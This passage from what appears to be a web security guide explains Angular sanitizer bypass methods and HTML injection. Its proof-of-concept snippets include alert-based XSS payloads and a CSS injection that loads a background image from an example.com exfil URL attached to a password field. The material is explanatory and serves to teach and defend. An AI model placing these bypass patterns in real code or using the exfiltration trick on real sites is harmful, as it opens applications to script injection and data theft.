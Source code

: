     //result
    <h1>html tag</h1>
    <svg onclick="alert('bypassSecurityTrustHtml')" style="display:block">blah</svg>
    ```
4.  `bypassSecurityTrustScript` is used to indicate the given value is safe JavaScript. However, we found its behavior to be unpredictable, because we couldn’t to execute JS code in templates using this method.

    ```jsx
    //app.component.ts
    this.trustedScript = this.sanitizer.bypassSecurityTrustScript("alert('bypass Security TrustScript')");

    //app.component.html
    <script [innerHtml]="trustedScript"></script>

    //result
    -
    ```
5.  `bypassSecurityTrustStyle` is used to indicate the given value is safe CSS. The following example illustrates CSS injection:

    ```jsx
    //app.component.ts
    this.trustedStyle = this.sanitizer.bypassSecurityTrustStyle('background-image: url(https://example.com/exfil/a)');

    //app.component.html
    <input type="password" name="pwd" value="01234" [style]="trustedStyle">

    //result
    Request URL: GET example.com/exfil/a
    ```

Angular provides a `sanitize` method to sanitize data before displaying it in views. This method employs the security context provided and cleanses the input accordingly. It is, however, crucial to use the correct security context for the specific data and context. For instance, applying a sanitizer with `SecurityContext.URL` on HTML content does not provide protection against dangerous HTML values. In such scenarios, misuse of security context could lead to XSS vulnerabilities.

### HTML injection

This vulnerability occurs when user input is bound to any of the three properties: `innerHTML`, `outerHTML`, or `iframe` `srcdoc`. While binding to these attributes interprets HTML as it is, the input is sanitized using `SecurityContext.HTML`. Thus, HTML injection is possible, but cross-site scripting (XSS) is not.

Example of using `innerHTML`:

```jsx
//app.component.ts
import { Component} from '@angular/core';

@Component({
  selector: 'app-root',
  templateUrl: './app.component.html'
})
export class AppComponent{
	//define a variable with user input
  test = "<script>alert(1)</script><h1>test</h1>";
}

//app.component.html
<div [innerHTML]="test"></div>
```

